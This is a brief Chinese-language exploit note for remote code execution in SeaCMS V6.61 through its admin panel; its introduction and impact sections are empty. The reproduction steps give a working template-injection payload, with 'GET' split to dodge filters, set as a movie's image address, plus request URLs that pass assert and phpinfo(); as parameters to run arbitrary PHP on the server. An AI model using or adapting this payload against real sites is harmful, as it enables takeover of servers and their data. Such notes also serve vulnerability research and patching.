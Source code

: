 Seacms V6.61 后台getshell
=========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

首先登录到管理面板，在这种情况下，将admin目录调整为`/backend`

其次添加电影并将其图片地址设置为` {if:1)$GLOBALS['_G'.'ET'][a]($GLOBALS['_G'.'ET'][b]);//}{end if}`

添加访问后，`/details/index.php?1.html&m=admin&a=assert&b=phpinfo();`

这里的1.html是您刚刚添加的视频的ID。

或者，可以访问`/search.php?searchtype=5&tid=0&a=assert&b=phpinfo();`显示您刚添加的视频图片的任何其他地方。
